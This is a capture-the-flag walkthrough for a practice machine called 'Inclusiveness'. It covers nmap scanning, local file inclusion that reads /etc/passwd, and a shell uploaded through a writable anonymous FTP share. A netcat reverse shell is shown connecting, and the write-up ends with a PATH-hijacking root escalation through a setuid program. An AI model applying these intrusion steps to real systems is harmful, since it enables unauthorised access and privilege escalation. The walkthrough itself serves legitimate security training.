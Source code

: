### Inclusiveness

### Difficuly: Easy

Machine IP: 192.168.101.14

### Scanning
```bash
$ nmap -sC -sV -oA nmap/initial 192.168.101.14                                                             
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-12 06:04 EDT
Nmap scan report for 192.168.101.14
Host is up (0.10s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0            4096 Feb 08  2020 pub [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.49.101
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 06:1b:a3:92:83:a5:7a:15:bd:40:6e:0c:8d:98:27:7b (RSA)
|   256 cb:38:83:26:1a:9f:d3:5d:d3:fe:9b:a1:d3:bc:ab:2c (ECDSA)
|_  256 65:54:fc:2d:12:ac:e1:84:78:3e:00:23:fb:e4:c9:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.38 seconds
```

### Enumeration

- Found home page and have robots.txt

![home_page](images/home_page.PNG)

- change the `user_agent` header to `Google bot` and sent request and found `secret_information`

__Request__
```php
GET /robots.txt HTTP/1.1
Host: 192.168.101.14
User-Agent: Googlebot/2.1; +http://www.google.com/bot.html
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Sat, 08 Feb 2020 03:40:29 GMT
If-None-Match: "3b-59e084481655e"
Cache-Control: max-age=0
```

__Response__

```javascript
HTTP/1.1 200 OK
Date: Thu, 12 Aug 2021 10:17:36 GMT
Server: Apache/2.4.38 (Debian)
Last-Modified: Sat, 08 Feb 2020 03:26:11 GMT
ETag: "2d-59e08115bb1ef"
Accept-Ranges: bytes
Content-Length: 45
Connection: close
Content-Type: text/plain

User-agent: *
Disallow: /secret_information/
```

- Secret information home page

- URL: http://192.168.101.14/secret_information/?lang=en.php
![secret_information](images/secret_information.PNG)

- Since the box name is inclusiveness, and tried file inclusion and got etc password.

![etc_passwd](images/etc_passwd.PNG)

- Found `pub` directory through `ftp`, which is writable, now upload a shell and check in the web.
- ftp location can be found at `/var/ftp/pub/test.php` 
- Now listen on port 9001 and open `` and reverse shell is connected

__Result__

```bash
└─$ nc -lvnp  9001                                                                        1 ⚙
listening on [any] 9001 ...
connect to [192.168.49.101] from (UNKNOWN) [192.168.101.14] 55418
Linux inclusiveness 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64 GNU/Linux
 20:41:26 up  5:03,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

- Accessing `local.txt` file
```bash
www-data@inclusiveness:/home/tom$ cat local.txt
cat local.txt
27ee94d9bfb393fc911375067335bab5
```


### Privilege escalation


- Found a file `rootshell.c` 
```c
cat /home/tom/rootshell.c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main() {

    printf("checking if you are tom...\n");
    FILE* f = popen("whoami", "r");

    char user[80];
    fgets(user, 80, f);

    printf("you are: %s\n", user);
    //printf("your euid is: %i\n", geteuid());

    if (strncmp(user, "tom", 3) == 0) {
        printf("access granted.\n");
        setuid(geteuid());
        execlp("sh", "sh", (char *) 0);
    }
}

```

- Now create a fiel name `whoami`(executable) and change the path (path hijacking)

```bash
$ cd /tmp
$ echo "printf "tom"" > whoami
$ chmod +x whoami
$ export PATH=/tmp:$PATH
```
 - Now execte `rootshell` file and that will elevate privilages to root
 

